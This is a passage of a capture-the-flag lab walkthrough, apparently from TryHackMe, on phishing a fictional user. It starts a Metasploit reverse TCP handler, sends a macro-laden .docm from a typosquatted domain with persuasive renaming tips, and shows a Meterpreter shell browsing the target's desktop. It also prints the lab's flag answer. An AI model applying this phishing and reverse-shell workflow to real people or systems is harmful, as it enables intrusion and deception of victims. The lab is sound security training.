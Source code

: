 ```javascript

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888
```

 \n 

## Email the Malicious Document

The malicious document has been created. All you need to do is to send it to the target user. It is time to send an email to the target user, `marta@socmas.thm`. Mayor Malware has prepared the following credentials:

* Email: `info@socnas.thm`
* Password: `MerryPhishMas!`

Notice how Mayor Malware uses a domain name that looks similar to the target user’s. This technique is known as “typosquatting,” where attackers create domain names that are nearly identical to legitimate ones in order to trick victims. On the AttackBox, start the Firefox web browser and head to http://MACHINE_IP. Use the above credentials to log in.

Once logged in, compose an email to the target user, and don’t forget to attach the document you created. Changing the name to something more convincing, such as `invoice.docm` or `receipt.docm` might be a good idea. Also, write a couple of sentences explaining what you are attaching to convince Marta May Ware to open the document. **Note:** You can use CTRL+H on the file upload pop-up to be able to see the `.msf4` directory where our email attachment is located.

## Exploitation

If everything works out, you will get a reverse shell after about 2 minutes. You can access the files and folders on the target system via the command line. You can use `cat` to display any text file.

AttackBox Terminal

```javascript
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888 
[*] Sending stage (176198 bytes) to 10.10.103.92
[*] Meterpreter session 1 opened (CONNECTION_IP:8888 -> 10.10.103.92:52536) at 2024-11-24 16:37:47 +0300
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
[...]
meterpreter > 
```

Answer the questions below

What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop?

THM{PHISHING_CHRISTMAS}


If you enjoyed this task, feel free to check out the [Phishing](https://tryhackme.com/module/phishing) module.